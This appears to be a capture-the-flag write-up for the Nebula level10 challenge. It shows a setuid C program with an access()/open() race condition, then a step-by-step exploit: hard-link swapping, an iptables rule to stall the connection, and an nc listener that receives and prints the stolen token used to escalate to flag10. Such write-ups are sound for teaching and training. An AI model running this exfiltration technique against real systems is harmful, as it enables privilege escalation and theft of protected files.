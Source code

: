 ## Challenge
The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```
```console
level10@nebula:/home/flag10$ ls -l
total 9
-rwsr-x--- 1 flag10 level10 7743 2011-11-20 21:22 flag10
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token
```
Okay, let's read about the `access` system call.
```console
man 2 access
```
```
NAME
       access - check real user's permissions for a file

SYNOPSIS
       #include <unistd.h>

       int access(const char *pathname, int mode);

DESCRIPTION
       access()  checks whether the calling process can access the file pathname.  If path‐
       name is a symbolic link, it is dereferenced.

       The mode specifies the accessibility check(s) to be performed,  and  is  either  the
       value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and
       X_OK.  F_OK tests for the existence of the file.  R_OK, W_OK, and X_OK test  whether
       the file exists and grants read, write, and execute permissions, respectively.

       The  check  is  done  using  the calling process's real UID and GID, rather than the
       effective IDs as is done when actually attempting an operation  (e.g.,  open(2))  on
       the  file.  This allows set-user-ID programs to easily determine the invoking user's
       authority.

       If the calling process is privileged (i.e., its real UID  is  zero),  then  an  X_OK
       check  is  successful for a regular file if execute permission is enabled for any of
       the file owner, group, or other.

RETURN VALUE
       On success (all requested permissions granted), zero  is  returned.   On  error  (at
       least  one  bit  in  mode asked for a permission that is denied, or some other error
       occurred), -1 is returned, and errno is set appropriately.
```
There's going to be a problem here, `flag10` checks for `R_OK` read access but `access` checks against the `real UID`.

`setuid` sets the `effective UID`, thus we will fail the check when entering `token` as the `file`.

But the `man` article has more to say:
```
NOTES
       Warning: Using access() to check if a user is authorized to,  for  example,  open  a
       file  before  actually  doing  so using open(2) creates a security hole, because the
       user might exploit the short time interval between checking and opening the file  to
       manipulate it.  For this reason, the use of this system call should be avoided.
```
Jackpot?

We can make `file` a `hard link` and change it accordingly:
* `access()` - point to a file created by `level10`
* `open()` - point to `token`

Since we initiate the connection to `host` after calling `access()` we can stall the process to buy us time for swapping our link file.

For this I am going to use a second machine to act as the receiving end of the `token`.

### The Plan
Create dummy file with `level10` permissions.
```console
level10@nebula:~$ echo hello > /home/level10/test
```
Create link file and link it to dummy file.
```console
level10@nebula:~$ ln -fT /home/level10/test /home/level10/tkn
```
Listen for incoming connection on attacker machine at predefined port `18211`.
```console
┌──(kali㉿kali)-[~]
└─$ nc -lvp 18211
listening on [any] 18211 ...
```
Create `iptables` rule to drop connections from victim machine.

Notice the usage of `DROP` in contrast to `REJECT`.
* `REJECT` - replies with `RST`, rejects the connection
* `DROP` - drops the packets with no reply

We want `DROP` because we need to stall the connection phase.

This will force the victim machine to retransmit the `SYN` packet and wait till `timeout`.
```console
┌──(root💀kali)-[/home/kali]
└─# iptables -A INPUT -s 192.168.157.3 -j DROP
```
Run `flag10` with link as `file` and attacker machine as `host`.
```console
level10@nebula:/home/flag10$ ./flag10 /home/level10/tkn 192.168.157.4
Connecting to 192.168.157.4:18211 .. 
```
While the victim machine tries connecting, we know we passed the `access()` test.

So we can swap the link
```console
level10@nebula:~$ ln -fT /home/flag10/token tkn
```
and remove the `iptables` rule.
```console
┌──(root💀kali)-[/home/kali]
└─# iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
DROP       all  --  192.168.157.3        anywhere

┌──(root💀kali)-[/home/kali]
└─# iptables -D INPUT 1
```
After the connection is made, `open()` is called with `token` as the file our link points to.
```console
...
Connected!
Sending file .. wrote file!
```
```console
192.168.157.3: inverse host lookup failed: Host name lookup failure
connect to [192.168.157.4] from (UNKNOWN) [192.168.157.3] 37391
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
Use the `token` to login as `flag10` and `getflag`!
```console
level10@nebula:/home/flag10$ su flag10
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
